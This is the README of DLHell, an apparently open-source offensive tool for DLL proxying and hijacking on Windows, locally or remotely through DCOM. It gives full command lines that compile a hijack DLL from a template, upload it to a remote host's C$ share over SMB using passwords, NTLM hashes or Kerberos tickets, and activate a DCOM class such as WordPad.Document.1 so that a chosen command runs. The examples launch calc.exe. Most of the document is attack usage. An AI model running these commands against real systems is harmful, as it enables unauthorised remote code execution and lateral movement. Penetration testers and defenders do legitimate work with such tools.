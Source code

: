 # DLHell

DLHell performs DCOM local & remote Windows DLL Proxying.

## Install

The following packages are required (might depend on your distro, the following
example is for Debian 12):

```bash
sudo apt install -y g++-mingw-w64-x86-64-win32 binutils-mingw-w64-x86-64
```

Install pip dependencies:

```bash
pip3 install -r requirements.txt
```

## Quick start

The following command hijacks the `netutils.dll` library on host `10.137.0.48`
from the `template.tpe` template file (C++ source hijack library) which
launches `calc.exe`. Both original & proxy DLL will be placed in the `program
files/windows nt/accessories/` folder of the `C$` share on the remote target.

Please use Impacket syntax for the `-remote-target` option.

```bash
DLHell.py -t template.tpe -c 'calc.exe' -remote-lib 'windows/system32/netutils.dll' -remote-target 'program files/windows nt/accessories/test.dll' -target 'domain/user:password@ip'
```

Kerberos authentication can also be used:

```bash
DLHell.py -t template.tpe -c 'calc.exe' -k -target wks-02.vault-tech.com -progid WordPad.Document.1
```

List available CLSID & ProgIDs:

```bash
DLHell.py -list
```

## Usage

```
 ____  _     _   _      _ _
|  _ \| |   | | | | ___| | |
| | | | |   | |_| |/ _ \ | |
| |_| | |___|  _  |  __/ | |
|____/|_____|_| |_|\___|_|_|

DLHell v1.0

usage: DLHell.py [-h] [-local-lib LOCAL_LIB] [-remote-lib REMOTE_LIB] [-local-target LOCAL_TARGET]
                 [-remote-target REMOTE_TARGET] [-target TARGET] [-clsid CLSID] [-progid PROGID] -t T -c C
                 [-u U] [-l] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address]
                 [-target-ip ip address] [-port [destination port]]

DLL Hell - DLL Proxifier/Hijacker

options:
  -h, --help            show this help message and exit
  -local-lib LOCAL_LIB  Path of the remote library on the local system, ex: version.dll
  -remote-lib REMOTE_LIB
                        Path of the library on the remote system, ex: windows/system32/version.dll. WARNING:
                        Will connect using SMB on C$ share. Admin rights needed. Requires -target
  -local-target LOCAL_TARGET
                        The new name of the local output proxyfied library
  -remote-target REMOTE_TARGET
                        The new name of the remote proxyfied library. WARNING: Will connect using SMB on C$
                        share. Admin rights needed. Requires -target
  -target TARGET        [[domain/]username[:password]@]<targetName or address>
  -clsid CLSID          CLSID of DCOM class to activate
  -progid PROGID        ProgID of DCOM class to activate
  -t T, -template T     Template file to use for lib generation
  -c C, -command C      Command to execute using hijacked lib
  -u U, -user U         Name of the user to hijack (used to put DLLs in localappdata folder)
  -l, -list             Lists vulnerable CLSID & ProgID for DCOM Hijacking

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on
                        target parameters. If valid credentials cannot be found, it will use the ones
                        specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN)
                        specified in the target parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as
                        target. This is useful when target is the NetBIOS name and you cannot resolve it
  -port [destination port]
                        Destination port to connect to SMB Server
```

## Local DLL Proxying

For Local DLL crafting, use the `-local-lib` (name of the proxy DLL) and
`-local-target` (renamed original DLL) options:

```bash
DLHell.py -t template.tpe -c 'calc.exe' -local-lib 'lib/netutils.dll' -local-target 'test.dll'
```

## Remote DLL Proxying (admin privileges required):

For remote DLL hijacking, specify the `-target`, `-remote-lib` (name of the
original DLL on the remote host) and `-local-target` (renamed original DLL)
options:

```bash
DLHell.py -t template.tpe -c 'calc.exe' -target 'domain/user:password@ip' -remote-lib 'windows/system32/PROPSYS.dll' -remote-target 'windows/test.dll'
```

## DCOM DLL Proxying (admin privileges needed)

DCOM DLL Proxying can be exploited using the `-progid` and `-clsid` options.
The list of available CLSIDs & ProgIDs is available with the following command:

```bash
DLHell.py -list
```

You can add new hijacks to the `dcom.json` file which defines paths for
vulnerable libraries:

Then, only the ProgID or CLSID are required to:

- Get the original DLL
- Create and compile the hijack library
- Upload the libraries on the remote host
- Activate the remote DCOM class

Example for ProgID `WordPad.Document.1`:

```bash
DLHell.py -t template.tpe -c 'calc.exe' -target 'domain/user:password@ip' -progid WordPad.Document.1
```

Example for CLSID `73FDDC80-AEA9-101A-98A7-00AA00374959`:

```bash
DLHell.py -t template.tpe -c 'calc.exe' -target 'domain/user:password@ip' -clsid 73FDDC80-AEA9-101A-98A7-00AA00374959
```
